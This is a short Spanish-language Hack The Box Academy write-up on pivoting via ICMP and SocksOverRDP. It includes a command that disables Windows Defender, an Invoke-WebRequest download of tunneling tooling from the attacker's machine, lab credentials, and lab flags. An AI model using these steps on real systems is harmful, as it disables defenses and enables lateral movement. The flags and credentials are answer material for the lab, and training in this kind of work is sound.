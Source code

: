 
## ICMP Tunneling with SOCKS 🧦

* 🏴 Flag: **`N3Tw0rkTunnelV1sion!`**

## RDP and SOCKS Tunneling with SocksOverRDP 🎶

1. Nos descargamos [SocksOverRDP](https://github.com/nccgroup/SocksOverRDP/releases)

2. Lo descargamos en la Máquina Pivoting 

   a. Iniciamos un servidor HTTP con Python: `python3 -m http.server 80`

   b. Máquina Pivoting: `Invoke-WebRequest -Uri "http://<tun0 IP>/SocksOverRDP-x64.zip" -OutFile "C:\Users\htb-student\Desktop\SocksOverRDP-x64.zip"`

   c. Los descomprimos y ejecutamos los siguiente comandos
   ```
   Set-MpPreference -DisableRealtimeMonitoring $true
   regsvr32.exe .\SocksOverRDP-Plugin.dll
   ```

   * El primero es para desactivar Windows Defender.

3. Usaremos mstsc.exe para ejecutar el servicio RDP

   ![](/assets/images/HTB/Academy/Pivoting-Tunneling/overrdp.png)

4. Una vez tengamos acceso a la nueva sesión RDP `victor:pass@123`, configuramos el servicio **Proxifier**

   ![](/assets/images/HTB/Academy/Pivoting-Tunneling/proxifier.png)

5. Finalmente, nos conectamos al **RDP** de la Máquina Víctima `172.16.6.155 (jason:WellConnected123!)` 🎯 y veremos la flag 🏴

   * **`H0pping@roundwithRDP!`**